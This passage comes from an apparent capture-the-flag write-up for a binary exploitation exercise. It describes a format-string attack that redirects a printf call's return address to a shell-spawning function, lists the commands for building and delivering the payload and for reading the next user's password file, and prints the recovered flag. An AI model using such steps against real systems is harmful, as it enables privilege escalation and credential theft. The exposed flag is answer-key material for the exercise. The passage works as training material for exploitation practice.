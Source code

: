 ![level5.png](ressource/level5.png)
### Solution:
- We cant overflow the buffer thanks to the ``fgets`` functions.
- We still can use the printf trick to change the return address of the printf call.
- We craft a payload that will change that address to the ``o`` function.
- ``python3 ./level5/craft_payload.py && scp -P 4243 ./payload level5@localhost:/tmp/payload``
- ``cat payload | ./level5`` (This spawn a shell as level6 user)
- ``cat /home/level6/.pass``
### Result:
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

## Level6:
### Code after RE: